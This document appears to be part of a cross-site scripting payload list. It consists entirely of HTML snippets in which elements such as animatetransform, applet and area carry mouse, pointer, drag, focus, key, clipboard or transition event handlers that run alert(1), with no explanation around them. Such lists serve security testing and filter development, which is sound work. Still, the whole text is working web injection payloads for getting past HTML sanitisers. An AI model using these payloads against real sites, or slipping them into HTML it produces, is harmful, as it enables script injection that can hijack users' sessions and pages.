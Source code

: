 <animatetransform onmousemove="alert(1)" style=display:block>test</animatetransform>
<animatetransform onmouseout="alert(1)" style=display:block>test</animatetransform>
<animatetransform onmouseover="alert(1)" style=display:block>test</animatetransform>
<animatetransform onmouseup="alert(1)" style=display:block>test</animatetransform>
<animatetransform onmousewheel=alert(1) style=display:block>requires scrolling
<animatetransform onpointerdown=alert(1) style=display:block>XSS</animatetransform>
<animatetransform onpointerenter=alert(1) style=display:block>XSS</animatetransform>
<animatetransform onpointerleave=alert(1) style=display:block>XSS</animatetransform>
<animatetransform onpointermove=alert(1) style=display:block>XSS</animatetransform>
<animatetransform onpointerout=alert(1) style=display:block>XSS</animatetransform>
<animatetransform onpointerover=alert(1) style=display:block>XSS</animatetransform>
<animatetransform onpointerrawupdate=alert(1) style=display:block>XSS</animatetransform>
<animatetransform onpointerup=alert(1) style=display:block>XSS</animatetransform>
<applet draggable="true" ondrag="alert(1)" style=display:block>test</applet>
<applet draggable="true" ondragend="alert(1)" style=display:block>test</applet>
<applet draggable="true" ondragenter="alert(1)" style=display:block>test</applet>
<applet draggable="true" ondragleave="alert(1)" style=display:block>test</applet>
<applet draggable="true" ondragstart="alert(1)" style=display:block>test</applet>
<applet id=x style="transition:outline 1s" ontransitionend=alert(1) tabindex=1></applet>
<applet id=x tabindex=1 onfocus=alert(1)></applet>
<applet id=x tabindex=1 onfocusin=alert(1)></applet>
<applet onafterscriptexecute=alert(1)><script>1</script>
<applet onbeforecopy="alert(1)" contenteditable>test</applet>
<applet onbeforecut="alert(1)" contenteditable>test</applet>
<applet onbeforescriptexecute=alert(1)><script>1</script>
<applet onblur=alert(1) id=x tabindex=1 style=display:block>test</applet><input value=clickme>
<applet onclick="alert(1)" style=display:block>test</applet>
<applet oncontextmenu="alert(1)" style=display:block>test</applet>
<applet oncopy=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
<applet oncut=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
<applet ondblclick="alert(1)" autofocus tabindex=1 style=display:block>test</applet>
<applet onfocusout=alert(1) id=x tabindex=1 style=display:block>test</applet><input value=clickme>
<applet onkeydown="alert(1)" contenteditable style=display:block>test</applet>
<applet onkeypress="alert(1)" contenteditable style=display:block>test</applet>
<applet onkeyup="alert(1)" contenteditable style=display:block>test</applet>
<applet onmousedown="alert(1)" style=display:block>test</applet>
<applet onmouseenter="alert(1)" style=display:block>test</applet>
<applet onmouseleave="alert(1)" style=display:block>test</applet>
<applet onmousemove="alert(1)" style=display:block>test</applet>
<applet onmouseout="alert(1)" style=display:block>test</applet>
<applet onmouseover="alert(1)" style=display:block>test</applet>
<applet onmouseup="alert(1)" style=display:block>test</applet>
<applet onmousewheel=alert(1) style=display:block>requires scrolling
<applet onpaste="alert(1)" contenteditable>test</applet>
<applet onpointerdown=alert(1) style=display:block>XSS</applet>
<applet onpointerenter=alert(1) style=display:block>XSS</applet>
<applet onpointerleave=alert(1) style=display:block>XSS</applet>
<applet onpointermove=alert(1) style=display:block>XSS</applet>
<applet onpointerout=alert(1) style=display:block>XSS</applet>
<applet onpointerover=alert(1) style=display:block>XSS</applet>
<applet onpointerrawupdate=alert(1) style=display:block>XSS</applet>
<applet onpointerup=alert(1) style=display:block>XSS</applet>
<area draggable="true" ondrag="alert(1)" style=display:block>test</area>
<area draggable="true" ondragend="alert(1)" style=display:block>test</area>
<area draggable="true" ondragenter="alert(1)" style=display:block>test</area>
<area draggable="true" ondragleave="alert(1)" style=display:block>test</area>
<area draggable="true" ondragstart="alert(1)" style=display:block>test</area>
<area id=x style="transition:outline 1s" ontransitionend=alert(1) tabindex=1></area>
<area onafterscriptexecute=alert(1)><script>1</script>
<area onbeforecopy="alert(1)" contenteditable>test</area>
<area onbeforecut="alert(1)" contenteditable>test</area>
<area onbeforescriptexecute=alert(1)><script>1</script>
<area onblur=alert(1) id=x tabindex=1 style=display:block>test</area><input value=clickme>
<area onclick="alert(1)" style=display:block>test</area>